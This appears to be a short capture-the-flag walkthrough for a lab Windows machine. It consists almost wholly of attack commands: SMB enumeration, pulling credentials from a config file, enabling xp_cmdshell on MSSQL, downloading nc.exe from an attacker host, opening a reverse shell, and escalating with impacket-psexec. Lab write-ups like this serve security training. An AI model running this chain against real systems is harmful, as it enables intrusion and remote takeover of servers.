

# 1.Port Scan
ip=10.129.55.151
`nmap -sC -sV &ip` 

# 2.smbclient Search
`smbclient -N -L  \\\\$ip\\`

# 3.ID&Password Get
`smbclient -N \\\\$ip\\backups`

`cat prod.dtsConfig`

# 4.cmdshell
`usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@$ip -windows-auth`

**> enable_xp_cmdshell;**
**> RECONFIGURE;**
**> xp_cmdshell"whoami"**

**> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.8/nc.exe -outfile nc.exe"**

`sudo python3 -m http.server 80`

`nc -lvnp 4444`

**SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.8 4444"**

# 5.User.txt Get

# 6.powershell

**> powershell**
**> wget http://10.10.16.8/winPEASx64.exe -outfile winpeasx64.exe**
**> dir**

# 7.Root.txt Get

**/usr/bin/impacket-psexec administrator@$ip**

**> whoami**
**> cd ..**
**> cd Users**
**>cd Administrator**
**>cd Desktop**
**> dir**
**> > type.root.txt**

